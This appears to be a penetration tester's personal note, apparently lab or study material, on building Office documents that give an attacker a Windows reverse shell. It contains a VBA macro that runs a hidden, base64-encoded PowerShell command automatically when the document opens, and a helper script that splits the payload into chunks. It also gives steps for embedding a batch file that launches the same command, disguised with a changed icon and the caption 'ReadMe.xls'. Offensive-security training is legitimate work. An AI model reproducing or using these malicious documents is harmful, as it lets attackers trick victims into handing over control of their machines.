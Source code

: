 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Office macro reverse shell
[[1._Reverse Shells (WIN)#hta raw]]

Copy everything from: 
"powershell.exe -nop -w hidden -e ....... " into the str variable in split.py:

split.py
```python - kali
str = 

n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

run the python file:

```bash - kali
python split.py
```

Paste to notepad++, shift over 1 tab.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	.......................
    Str = Str + "wB0AGEAcgB0ACgAJABzACkAOwA="
    
    CreateObject("Wscript.Shell").Run Str

End Sub

```

New document in Word.
View > Macros > View Macros

Macro name: MyMacro

Macros in: Document1

![[Pasted image 20220603093224.png]]

Click Create.

Paste in Macro code.  Save.

Tools to help analyze the VBA Macro in the document:
https://github.com/decalage2/oletools/wiki/Install
```bash - kali
sudo -H pip install -U oletools
```

https://github.com/decalage2/oletools/wiki/olevba
```bash - kali
olevba --reveal Shelly.doc
```

#### Office Object Linking and Embedding

First, make a "launch.bat" file.

Paste in your powershell code form above:

```
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4kAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAU.....
vAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA= 
```

Insert > Object > Create from File > launch.bat

Select "Display as icon"
Click "Change Icon"
Chang icon if desired.
Change the Caption: "ReadMe.xls"

Click "OK"
